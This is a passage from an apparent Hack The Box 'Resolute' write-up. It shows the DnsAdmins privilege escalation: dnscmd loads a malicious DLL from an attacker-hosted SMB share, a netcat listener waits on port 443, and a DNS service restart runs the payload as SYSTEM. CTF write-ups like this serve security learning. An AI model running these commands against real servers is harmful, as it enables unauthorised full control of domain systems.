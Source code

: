 #### 3 - Injection of Malicious DLL

We inject our malicious DLL as config for DNS.

```terminal
PS c:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.159\share\pwndnsadmin.dll
```

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-injectdll.png" | relative_url }})

We confirm the adding of the value in regedit.

```terminal
PS c:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name serverlevelplugindll
```

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-verifpayload.png" | relative_url }})

#### 4 - Attacking machine listening

We listening on port 443 with netcat pending the execution of the payload.

```terminal
$ sudo nc -lnvp 443
```

#### 5 - Execution of payload

dns .exe run under SYTEM privilege. The payload will execute when the service dns restart. This service run under SYSTEM privilege so we will dispose of this right through our attacking machine's listening port 443.

```terminal
PS c:\Users\ryan\Documents> sc.exe stop dns
PS c:\Users\ryan\Documents> sc.exe start dns
```

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-exploitdll.png" | relative_url }})

We get full control of Resolute machine.

### Flag root
***

![Desktop View]({{ "/assets/img/resolute/HTB-Images-Resolute-rootflag.png" | relative_url }})

***

## **<center>Trophy</center>**

>**When you get really smart people together, who are super motivated by the problem that they’re working on, I think people will figure out the answers.**
>
> Katie Bouman
